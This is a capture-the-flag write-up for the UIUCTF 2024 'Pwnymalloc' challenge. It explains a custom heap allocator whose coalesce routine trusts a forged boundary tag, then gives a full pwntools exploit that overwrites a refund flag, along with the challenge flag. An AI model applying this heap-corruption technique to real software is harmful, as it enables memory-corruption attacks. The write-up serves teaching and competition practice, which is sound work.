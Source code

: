 ```yaml
---
date: '2024-07-08T12:00:00Z'
draft: false
title: 'UIUCTF24 - Pwnymalloc'
summary: "Pwnymalloc is a nice custom allocator challenge from UIUCTF 2024. The vulnerability was about an incorrect handling of the prev_size during consolitation."

categories: ["Writeups"]
tags: ["pwn", "heap", "custom allocator"]
author: "leo_something"

ShowToc: true
---
```


## BINARY OVERVIEW

Pwnymalloc is a custom heap implementation library, the mechanics resemble the actual heap behaviors, but the code is really simple and short, so it must be pwnable! 

We are also provided with a binary that implements a "customer service portal" using Pwnymalloc library.

---
## BINARY REVERSE ENGINEERING

The binary allows a user to:

- Submit a complaint: allocate a chunk, write into it and free it (basically throws our opinion away, thank you!)
- Request a refund: allocate a chunk and write into it (this chunk has a REFUND_APPROVED bit set to 0, and we cannot change it)
- Check refund status: prints the flag if a refund gets somehow approved (REFUND_APPROVED == 1)

Our goal should be to break Pwnymalloc to somehow override the REFUND_APPROVED bit and get the flag, so let's read the library's source code.

---
## LIBRARY REVERSE ENGINEERING

My first hope was to be able to find the vulnerability without having to reverse all the code, which was not so short after all. But, guess what... I ended up reading and trying to understand the whole code :/ 

This took quite a bit of time, but being familiar with the glibc heap implementation it's easy to guess what these functions are doing.

Reading through the code we can identify the 2 most important functions: 

1. **`pwnymalloc(size)`**:
    - Initializes the heap if it’s the first allocation.
    - Aligns the requested size and searches for a fitting block.
    - If no suitable block is found, it extends the heap.
    - Optionally splits larger blocks to minimize waste.
    - Returns a pointer to the allocated memory.
    
2. **`pwnyfree(ptr)`**:
    - Validates the pointer and its alignment.
    - Marks the block as free and attempts to coalesce it with adjacent free blocks.
    - Inserts the coalesced block back into the free list.

A thing that caught my attention here was the "coalescence" feature: it sounded sketchy (and that turned out to be a really lucky guess).

```c
static chunk_ptr coalesce(chunk_ptr block) { 
	chunk_ptr prev_block = prev_chunk(block); 
	chunk_ptr next_block = next_chunk(block); 
	
	size_t size = get_size(block); 
	
	int prev_status = prev_block == NULL ? -1 : get_status(prev_block); 
	int next_status = next_block == NULL ? -1 : get_status(next_block); 
	
	if (prev_status == FREE && next_status == FREE) {
		// ...
}
```

The functions starts by getting the pointers to the previous and next chunk, but how is it done?

```c
static chunk_ptr prev_chunk(chunk_ptr block) {
    if ((void *) block - get_prev_size(block) < heap_start || 
	    get_prev_size(block) == 0) {
        
        return NULL;
    }

    return (chunk_ptr) ((char *) block - get_prev_size(block));
}
```

```c
static size_t get_prev_size(chunk_ptr block) {
    btag_t *prev_footer = (btag_t *) ((char *) block - BTAG_SIZE);
    return prev_footer->size;
}
```

Okay, so the `btag` is the size of a free chunk and it is located in the last WORD of it. Apparently this is used to calculate the pointer to the previous chunk during backward ~~consolidation~~ coalescence, but wait a moment, there is no check to confirm that the previous chunk is free!

We could basically allocate a chunk and write a fake `btag` in its last WORD, in this way if `coalesce` is triggered on the chunk after it `prev_chunk` would calcolate and return an arbitrary pointer!

---
## EXPLOITATION

At this point the exploitation path was really clear to me:
1. Allocate a chunk containing a fake chunk (it's pointer will be calculated by `prev_chunk` using a fake `btag`). 
2. Allocate another chunk and place a forged `btag` in its last WORD, calculating the right offset from the fake chunk.
3. Allocate a chunk and free it to trigger the `coalesce` mechanism and get the fake chunk into the "bin".
4. Finally allocate the fake chunk and override the REFUND_APPROVED bit and get the flag!

#### Problems I faced

Obviously the exploit didn't work first try, the main problems I faced are the following:
- the fake chunk must be aligned at 16 bytes,
- the fake chunk's `fd` and `bk` (pointers to next and previous free chunks) must be set to 0 to avoid further pain,
- the fake chunk must be set to FREE so the metadata must be calculated with the following formula: `size | status`.

#### Final Exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./chal")

context.binary = exe
context.terminal = ["alacritty", "-e"]

def conn():
    if args.GDB:
        r = gdb.debug([exe.path], gdbscript="b *pwnymalloc+210")
    elif args.REMOTE:
        r = remote("pwnymalloc.chal.uiuc.tf", 1337, ssl=True)
    else:
        r = process([exe.path])
    return r

r = conn()

def refund(amount, payload):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b":", str(amount).encode())
    r.sendafter(b":", payload)

def complaint(text): 
    r.sendlineafter(b">", b"1")
    r.sendlineafter(b":", text.encode())

def main():

    progress = log.progress("cooking")

    # build fake chunk
    fake_chunk_metadata = flat(0, 0xa0)
    payload = b"a"*0x28 + fake_chunk_metadata + b"\x00"*71
    refund(12, payload)

    # allocate a chunk with a forged btag
    btag = 0xe0
    payload = b"\x00"*0x78 + p32(btag) + b"\x00"*3
    refund(12, payload)

    # allocate and free
    complaint("hello")

    # override REFUND_APPROVED bit of complaint
    REFUND_APPROVED = 1
    payload = b"a"*0x40 + p64(0x91) + p32(REFUND_APPROVED) + p32(12) + b"\x00"*0x2f
    refund(12, payload)

    # check status to get the flag!
    r.sendlineafter(b">", b"4")
    r.sendlineafter(b":", b"1")

    progress.success()

    r.interactive()

if __name__ == "__main__":
    main()
```

**FLAG**: uiuctf{the_memory_train_went_off_the_tracks}

#### Post Scriptum 
I realized that if the first thing you do after running the binary is submitting a complaint the program would SIGSEGV. That's because `pwnyfree` always calls `coalesce` and in turn `coalesce` tries to get the previous chunk's `btag`. The thing is that the complaint is the first heap allocation, there is no previous chunk, so the program tries to get the contents of the WORD right before the start of the heap (which is not in mapped memory).

I learned a really good lesson here: **always try the binary before reading the code!**